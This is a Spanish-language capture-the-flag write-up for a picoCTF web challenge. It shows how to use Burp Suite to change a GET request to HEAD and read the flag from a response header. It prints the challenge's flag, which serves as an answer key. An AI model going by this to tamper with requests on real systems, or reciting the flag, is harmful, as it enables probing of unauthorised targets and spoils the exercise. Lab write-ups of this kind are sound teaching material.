 # Objetivo

Encuentra la bandera que se mantiene en este servidor para adelantarte a la competencia http://mercury.picoctf.net:47967/
1. Quizás tengas más de 2 opciones.
2. Consulte herramientas como Burpsuite para modificar sus solicitudes y observar las respuestas.
## Solución

- `Proxy`: Ayuda a ocultar direcciones reales y que todas las solicitudes se hagan a través del proxy.

Debemos instalar `FoxyProxy` como extencion en nuestro navegador, para poder cambiar entre proxys (o des habilitarlo) según lo necesitemos.

Ahora, vamos abrir el programa `Burp Suite`, que ya viene con Kali y vamos a agregar a nuestro navegador 
```

ORIGINAL:
GET /index.php? HTTP/1.1
Host: mercury.picoctf.net:47967
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://mercury.picoctf.net:47967/index.php
Upgrade-Insecure-Requests: 1

EDITADA:
HEAD /index.php? HTTP/1.1
Host: mercury.picoctf.net:47967
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://mercury.picoctf.net:47967/index.php
Upgrade-Insecure-Requests: 1

GET /v1/tiles HTTP/1.1
Host: contile.services.mozilla.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Te: trailers
Connection: close

Cambiamos de pestana, nos vamos a la seccion history, buscamos la que editamos y encontraremos, en la seccion Response, lo siguiente:

HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}
Content-type: text/html; charset=UTF-8

```
## Referencias

- https://developer.mozilla.org/es/docs/Web/HTTP/Methods
- https://en.wikipedia.org/wiki/Burp_Suite
- https://learn.onemonth.com/web-hacking-tools-proxies/